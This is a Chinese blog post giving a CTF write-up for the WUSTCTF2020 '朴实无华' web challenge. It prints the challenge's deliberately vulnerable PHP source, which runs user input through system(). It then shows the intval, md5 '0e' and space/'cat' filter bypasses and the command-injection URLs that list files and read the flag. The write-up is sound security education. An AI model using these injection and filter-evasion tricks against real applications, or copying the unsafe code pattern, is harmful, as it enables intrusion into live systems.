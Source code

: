 ```yaml
---

title: 日常练习22

date: 2021-04-22 16:40:07

tags: 练习

categories: test69

---
```

做了一道基础题，记录一下。  

# [WUSTCTF2020]朴实无华  

这道题其实难度不大，主要是出题人很会藏东西，但是这道题只要找到它藏的关键信息就很容易解出来。  

打开题目，看见两个单词：hack me，除此之外就没有什么东西了，那么根据做题经验，直接f12。  

[![](https://img.imgdb.cn/item/60842601d1a9ae528f2f15fb.png)](https://img.imgdb.cn/item/60842601d1a9ae528f2f15fb.png)  

看到头文件信息中有有bot字样，猜测应该是robots.txt。查看一手。  

[![](https://img.imgdb.cn/item/60842756d1a9ae528f3f32a5.png)](https://img.imgdb.cn/item/60842756d1a9ae528f3f32a5.png)  

发现给了一个假flag的文件，我们还是打开看看。  

确实是假的flag，除此之外没有东西了，那就抓包看看。  

[![](https://img.imgdb.cn/item/608427ead1a9ae528f462672.png)](https://img.imgdb.cn/item/608427ead1a9ae528f462672.png)  

发现头文件信息中有Look_at _me: /fl4g.php这样的提示，那么就打开这个php文件。  

[![](https://img.imgdb.cn/item/6084288ad1a9ae528f4d7c0d.png)](https://img.imgdb.cn/item/6084288ad1a9ae528f4d7c0d.png)  

终于得到了源码，源码里的中文乱码了，但是不是很影响。我们开始代码审计：（我这里给出原本的源码）  
	
	<?php
	header('Content-type:text/html;charset=utf-8');
	error_reporting(0);
	highlight_file(__file__);


	//level 1
	if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
	}else{
    die("去非洲吧");
	}
	//level 2
	if (isset($_GET['md5'])){
	   $md5=$_GET['md5'];
	   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
	else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
	}else{
    die("去非洲吧");
	}

	//get flag
	if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
	}else{
    die("去非洲吧");
	}
	?>
	去非洲吧

发现是三层绕过，这三个绕过都是挺基础的，首先是第一个，上传num变量它的值要小于2020，但是加一后要大于2021，这个看似违背逻辑，但是这里要注意这个intval()函数，它默认是十进制，当我们传入科学计数法形式的数字时，比如：1e10.它只会返回字母前数字，也就是1.  

但是当这个函数进行运算后再输出就会返回正确的结果。  

那么这道题我们就可以使用科学计数法来绕过这个函数，我们上传num=1e10，这样就能满足两个条件。   

接着就是第二关md5的绕过，这个绕过要求我们上传的变量md5加密前后相同，其实这个是一个小知识点，我们可以记住这个特殊的字符串：  

	0e215962017   

这个在md5弱类型绕过上经常会考。  

最后的一个绕过首先过滤了空格，然后过滤了黑名单中的字符串，这个黑名单过滤的很简单，只过滤了cat，那么我们使用tac来绕过，关于空格我们可以使用$IFS$9来绕过，方法还有很多。  

payload构造如下：  

	查看文件目录：/fl4g.php?num=1e10&md5=0e215962017&get_flag=ls  

[![](https://img.imgdb.cn/item/60842bf4d1a9ae528f7654d4.png)](https://img.imgdb.cn/item/60842bf4d1a9ae528f7654d4.png)  

那个文件名最长的应该就是真的flag。  

	查看文件：/fl4g.php?num=1e10&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag  

得到flag.  

[![](https://img.imgdb.cn/item/60842c74d1a9ae528f7c78e7.png)](https://img.imgdb.cn/item/60842c74d1a9ae528f7c78e7.png)  

# 小结  

这道题目其实不难，只要找到隐藏信息很容易做出来，考的都是一些小知识点，算是一道基础题，考察一些基本的绕过。  

